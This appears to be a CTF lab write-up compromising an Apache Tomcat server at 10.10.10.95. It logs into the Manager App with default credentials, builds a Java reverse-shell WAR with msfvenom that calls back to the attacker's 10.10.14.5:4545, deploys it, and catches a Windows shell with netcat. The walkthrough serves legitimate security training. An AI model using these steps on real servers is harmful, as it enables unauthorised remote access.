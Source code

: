 ## Exploitation

Take action on the identified vulnerabilities during the enumeration and exploit.

### Apache Tomcat - Manager App

A "pure Java" HTTP web server environment with vulnerabilities to exploit.

<figure><img src="../../.gitbook/assets/Screenshot 2022-12-08 074549 (1).png" alt=""><figcaption><p>10.10.10.95:8080 port that was identified as open from nmap is accessible via web browser. Attempting to login to the Manager App.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/Screenshot 2022-12-08 075103.png" alt=""><figcaption><p>Manager App login window. Don't know password so click Cancel.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/Screenshot 2022-12-08 075348.png" alt=""><figcaption><p>401 Unauthorized page shows example login information we can try for the Manager-gui role. We will now try username="tomcat" password="s3cret" for the Manager App.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/Screenshot 2022-12-08 075858.png" alt=""><figcaption><p>The login credentials worked and now we have access to the Tomcat Apache Manager App</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/Screenshot 2022-12-08 081116.png" alt=""><figcaption><p>Mnager App has a WAR file to deploy field. This is an attack vector for a payload we can use by generateing a payload with msfvenom.</p></figcaption></figure>

### msfvenom (without Metasploit Framework)

Combination of msfpayload and msfencode. Generates payloads to be deployed at the target system (using the msfconsole). The flag -p is set to specify it is a payload command.

The below code specifies msfvenom to create a java payload my local IP listening on port 4545 to gain reverse shell access as a .war file.

{% code overflow="wrap" lineNumbers="true" %}
```
└─# msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4545 -f war -o shell.war
Payload size: 13317 bytes
Final size of war file: 13317 bytes
Saved as: shell.war
```
{% endcode %}

<figure><img src="../../.gitbook/assets/Screenshot 2022-12-08 082816.png" alt=""><figcaption><p>Deploy the shell.war payload</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/Screenshot 2022-12-08 081953.png" alt=""><figcaption><p>shell.war was deployed and now is a running application in the Manager App</p></figcaption></figure>

### netcat (nc)

Reads and writes data across network connections, using TCP and UDP protocols. It can also function as a server, by listening for inbound connections on arbitrary ports and then doing the same reading and writing. The flag -lvp is set to listen mode for inbound connects, verbose, and local port number.

The command below listens to the specified port 4545 in the payload. We have shell access to apache-tomcat-7.0.88.

{% code overflow="wrap" lineNumbers="true" %}
```
└─# nc -lvp 4545                          
listening on [any] 4545 ...
10.10.10.95: inverse host lookup failed: Unknown host
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```
{% endcode %}
